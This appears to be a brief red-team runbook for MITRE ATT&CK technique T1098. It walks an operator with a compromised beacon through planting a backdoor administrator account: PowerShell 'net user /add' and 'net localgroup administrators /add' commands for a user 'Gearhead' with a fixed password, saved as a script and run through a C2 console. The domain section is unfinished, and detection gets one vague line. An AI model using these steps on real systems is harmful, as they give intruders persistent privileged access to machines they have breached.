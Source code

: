 # [Account Manipulation](https://attack.mitre.org/techniques/T1098/)

## LOCAL USER Exploit syntax:
1. Get a beacon with local/domain administrative privileges.

2. In parrot open a blank text file and paste the following commands into it
    ```powershell
    net user /add Gearhead Squanch123;
    net localgroup administrators /add Gearhead;
    ```

3. Save the file with as Pencilvester.ps1 to /tmp

4. Run
	```sh
	sudo chmod +x /tmp/Pencilvester.ps1
	```

5.  In posh, run
    ```powershell
	pslo /tmp/Pencilvester.ps1
    ```

## DOMAIN USER Exploit syntax: 
????????????????????
new-aduser ain't fucking working

## Detection Technique:
* Monitor windows events related to account manipulation